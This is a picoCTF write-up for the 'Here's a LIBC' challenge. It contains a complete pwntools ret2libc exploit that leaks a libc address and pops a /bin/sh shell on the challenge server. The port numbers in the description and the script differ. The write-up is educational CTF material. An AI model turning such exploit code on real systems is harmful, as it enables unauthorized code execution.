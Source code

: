 # Here's a LIBC

Type/Tags : Binary Exploitation
Author : Madstacks

# Description
I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 23584

# Hints
PWNTools has a lot of useful features for getting offsets.

# Solution
Very standard ret2libc challenge with vuln being the vulnerable ELF executable and libc.so.6 being the version of libc used that is needed to exploit the challenge. You can learn about ret2libc challenges in a lot of places including LiveOverflow's videos on the topic, pwn.college, and here: https://research.801labs.org/stack-exploitation/

Final exploit script:
------------------------------------------------------------
from pwn import *
p = remote('mercury.picoctf.net', 1774)
elf = ELF("./vuln")
libc = ELF("./libc.so.6")
rop = ROP(elf)

PUTS = elf.plt['puts']
MAIN = elf.symbols['main']
LIBC_START_MAIN = elf.symbols['__libc_start_main']

POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(PUTS))
log.info("__libc_start_main: " + hex(LIBC_START_MAIN))
log.info("pop rdi gadget: " + hex(POP_RDI))

#create the first rop chain to leak libc address
JUNK = ("A"*136).encode()
rop = JUNK
rop += p64(POP_RDI)
rop += p64(LIBC_START_MAIN)
rop += p64(PUTS)
rop += p64(MAIN)

p.sendlineafter("sErVeR!", rop)

p.recvline()
p.recvline()

leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))


libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

#second rop chain to jump to /bin/sh
rop2 = JUNK
rop2 += p64(RET)
rop2 += p64(POP_RDI)
rop2 += p64(libc.address + 0x10a45c)

#found by using one_gadget /bin/sh
#0x4f365
#0x4f3c2
#0x10a45c

rop2 += p64(leak)

p.sendlineafter("sErVeR!", rop2)

p.interactive()

# Flag
